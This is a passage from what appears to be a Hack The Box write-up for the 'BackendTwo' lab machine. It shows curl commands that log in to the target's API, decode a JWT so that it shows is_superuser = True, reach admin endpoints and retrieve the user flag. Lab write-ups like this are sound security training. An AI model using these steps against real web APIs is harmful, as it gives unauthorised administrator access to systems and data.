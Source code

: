 It says `is_superuser = False`.
I assume that it is an implementation that decodes the JWT sent on the server side, judges this `is_superuser` and branch the processing.

I will login to retrieve the JWT again and decode it.

```console
root@kali:~/htb/Machines/BackendTwo# curl -X POST -s http://backendtwo.htb/api/v1/user/login -F "username=a@backendtwo.htb" -F "password=password"
{"access_token":"eyJh(snip)nk","token_type":"bearer"}

root@kali:~/htb/Machines/BackendTwo# TOKEN=eyJh(snip)nk

root@kali:~/htb/Machines/BackendTwo# python3 ~/tools/jwt_tool/jwt_tool.py $TOKEN
(snip)
[+] is_superuser = True
```

It says `is_superuser = True`.

```console
root@kali:~/htb/Machines/BackendTwo# curl -s -H "Authorization: Bearer $TOKEN" http://backendtwo.htb/api/v1/admin/
{"results":true}
```

User whose ID is 12 got superuser privileges.

```console
root@kali:~/htb/Machines/BackendTwo# curl -s -H "Authorization: Bearer $TOKEN" http://backendtwo.htb/api/v1/admin/get_user_flag
{"file":"[REDACTED]\n"}
```

Also, got flag, which could be submitted to Hack The Box as a user flag.

### Download File Feature
